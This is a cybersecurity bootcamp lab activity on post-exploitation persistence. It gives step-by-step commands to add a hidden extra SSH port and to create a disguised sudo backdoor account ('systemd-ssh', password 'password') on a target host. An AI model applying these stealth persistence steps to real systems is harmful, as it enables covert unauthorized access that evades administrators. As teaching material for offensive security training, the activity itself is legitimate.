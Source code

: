 ## Activity File: Persistence

In the previous activity, you dumped the `/etc/shadow` file and cracked several passwords in it. In this activity, you added an additional port for the SSH service to listen on, then opened that port on the firewall. We don't want to change the original port, 22, because that would be a red flag for administrators. 

Finally, you created an account, added it to the sudoers group, and ensured it could SSH over the new port that you specified.

**Reminder**: Ensure that you are performing the activities on the target machine and not your own assessment machine! This means you should be SSH'd in, or have a reverse/Meterpreter shell into the target.

### Instructions 

1. On the target host, read the top 10 lines of the SSH config file, located at `/etc/ssh/sshd_config`, and identify the line where a port is specified.

     - `head /etc/ssh/sshd_config`

     ![A screenshot depicts the results of the command.](head.PNG)
   
2. Using Nano, edit the file to add an additional port, 10022. (You must `sudo` to do this.)

     - `sudo nano /etc/ssh/sshd_config`

	 ![A screenshot depicts the results of the command.](addport.PNG)

     - Due to this machine having limited services, you must restart the machine in order to restart the SSH service. Restart the machine via `sudo reboot`.

3. Now, create a new backdoor account. In order to remain inconspicuous, name this account so that it appears as if it's a service. Create a new account named "systemd-ssh", with the password "password", and then add it to the admin group. 

     - `sudo adduser systemd-ssh`

	 ![A screenshot depicts the results of the command.](adduser.PNG)

     - `sudo usermod -aG admin systemd-ssh`

4. Confirm that the new account works by SSHing from your machine to the target host over port 10022 as the new user you created.

     - `ssh systemd-ssh@ipaddress`


---
© 2022 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.



